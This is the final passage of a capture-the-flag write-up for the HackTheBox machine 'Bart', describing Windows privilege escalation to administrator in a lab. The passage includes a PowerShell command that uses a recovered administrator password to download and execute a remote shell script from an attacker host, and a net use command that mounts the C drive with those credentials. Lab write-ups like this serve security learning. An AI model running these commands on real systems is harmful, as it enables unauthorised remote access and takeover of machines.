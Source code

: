 The commands have also been added to the Windows privesc cheatsheet. The commands sent are:

``` powershell
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/shell.ps1') } -Credential $cred -Computer localhost
```

![PowerShell Runas](/HackTheBox/htb-bart/23_runas1.png)

The commands have been executed, and the process has stuck which is a good sign. We move to our listener tab and check:

![Got Admin Shell](/HackTheBox/htb-bart/23_runas2.png)

And we have got an adminitrator shell. Great.

#### Method 3 - Net use

While checking 0xdfs' write-up for the runas command turns out there was another way of getting access to the administrator owned files using `net use`. Although our objective here is to get admin or SYSTEM shell, we cannot ignore how crucial it could be in an engagement to be able to get hold of admin owned files.

Command sent:
``` cmd
net use x: \\localhost\c$ /user:Administrator 3130438f31186fbaf962f407711faddb
```

The command tells the machine that create a new drive "x" which would be a copy of `\\localhost\c$` "share", which is the C drive, as the user administrator and here is admins' password. The machine checks the validity of the credential we passed and since it is correct it creates a copy of the C drive in the X drive.

![Created C:\ Copy](/HackTheBox/htb-bart/24_netuse1.png)

The copy has been created successfully, let's see if we can access it.

![Accessing Admin Files](/HackTheBox/htb-bart/24_netuse2.png)

And sure enough, we were able to access admins' files while having a service account.

## Flags

Now that we have rooted it in different ways, it is time we go get our loot:

![Root.txt](/HackTheBox/htb-bart/21_root.png)

![Finding User.txt](/HackTheBox/htb-bart/21_user1.png)
